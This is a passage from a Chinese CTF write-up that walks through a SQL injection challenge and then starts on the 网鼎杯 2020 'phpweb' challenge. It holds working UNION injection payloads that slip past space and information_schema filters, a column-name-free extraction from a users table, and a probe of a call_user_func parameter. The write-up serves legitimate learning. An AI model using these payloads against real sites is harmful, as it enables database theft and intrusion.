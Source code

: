 那么就可以通过这个看字段数了
```html
a'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,'a
```
最终是22个字段，~~谢谢出题人~~，回显的是第二个和第三个字段

information_schema被过滤了,尝试其他库的利用，`mysql` 、`sys`都行，这里使用`mysql`
```html
a'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,'a
```
>ads,users

表名到手，没有方便的方法获得列名，尝试无列名注入。
```html
a'/**/union/**/select/**/1,(select/**/group_concat(`1`)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/users)w),3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,'a
```
>The used SELECT statements have a different number of columns

慢慢人工爆破

```html
a'/**/union/**/select/**/1,(select/**/group_concat(`1`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)w),3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,'a
```
>1,1,2,3

好在只有三列

逐列查询，在第三列得到flag

# <网鼎杯 2020 朱雀组>phpweb
打开题目
>Warning: date(): It is not safe to rely on the system's timezone settings. You are *required* to use the date.timezone setting or the date_default_timezone_set() function. In case you used any of those methods and you are still getting this warning, you most likely misspelled the timezone identifier. We selected the timezone 'UTC' for now, but please set date.timezone to select your timezone. in /var/www/html/index.php on line 24
2021-11-05 06:48:31 am

查看源代码，关键代码如下
```javascript
<script language=javascript>
    setTimeout("document.form1.submit()",5000)
</script>
```
```html
<input type=hidden id=func name=func value='date'>
<input type=hidden id=p name=p value='Y-m-d h:i:s a'>
```
根据页面显示，这两个提交的数据应该是可以利用的。
先禁用js，再手动提交参数测试。
```html
index.php?func=a
```
回显
>Warning: call_user_func() expects parameter 1 to be a valid callback, function 'a' not found or invalid function name in /var/www/html/index.php on line 24

